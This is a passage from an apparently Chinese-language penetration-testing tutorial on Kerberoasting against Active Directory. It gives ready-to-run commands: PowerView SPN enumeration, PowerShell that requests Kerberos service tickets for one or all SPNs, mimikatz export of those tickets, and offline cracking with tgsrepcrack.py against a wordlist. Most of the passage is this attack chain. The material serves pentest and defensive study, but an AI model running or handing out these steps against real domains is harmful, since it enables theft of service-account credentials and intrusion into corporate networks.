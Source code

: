 ```
Get-NetUser -spn -AdminCount|Select name,whencreated,pwdlastset,lastlogon
```

#### (3)使用kerberoast

powershell:

https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1

vbs:

https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.vbs

参数如下：

```
cscript GetUserSPNs.vbs
```

### 2、请求TGS

#### (1)请求指定TGS

```
$SPNName = 'MSSQLSvc/DC1.test.com'
Add-Type -AssemblyNAme System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $SPNName
```

#### (2)请求所有TGS

```
Add-Type -AssemblyName System.IdentityModel  
setspn.exe -q */* | Select-String '^CN' -Context 0,1 | % { New-Object System. IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }  
```

执行后输入`klist`查看内存中的票据，可找到获得的TGS

### 3、导出

使用mimikatz

```
kerberos::list /export
```

### 4、破解

https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py

```
./tgsrepcrack.py wordlist.txt test.kirbi
```

## 0x05 Kerberoasting的实现方法二
---
